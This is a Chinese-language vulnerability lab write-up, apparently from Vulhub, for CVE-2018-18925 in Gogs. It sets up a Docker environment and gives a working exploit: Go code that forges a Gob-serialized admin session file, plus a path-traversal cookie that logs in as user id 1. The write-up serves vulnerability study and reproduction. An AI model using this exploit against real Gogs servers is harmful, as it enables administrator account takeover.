

Gogs 任意用户登录漏洞 CVE-2018-18925¶
漏洞描述¶
gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。
其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。
参考链接：
- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575
环境搭建¶
Vulhub执行如下命令启动gogs：
docker-compose up -d
环境启动后，访问http://your-ip:3000，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。
安装完成后，需要重启服务：docker-compose restart，否则session是存储在内存中的。
漏洞复现¶
使用Gob序列化生成session文件：
package main
import (
"bytes"
"encoding/gob"
"encoding/hex"
"fmt"
"io/ioutil"
"os"
)
func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
for _, v := range obj {
gob.Register(v)
}
buf := bytes.NewBuffer(nil)
err := gob.NewEncoder(buf).Encode(obj)
return buf.Bytes(), err
}
func main() {
var uid int64 = 1
obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
data, err := EncodeGob(obj)
if err != nil {
fmt.Println(err)
}
err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
if err != nil {
fmt.Println(err)
}
edata := hex.EncodeToString(data)
fmt.Println(edata)
}
然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

通过这个附件的URL，得知这个文件的文件名：./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10。
然后，构造Cookie：i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10，访问即可发现已经成功登录id=1的用户（即管理员）：

完整的利用过程与原理，可以阅读参考链接中的文章。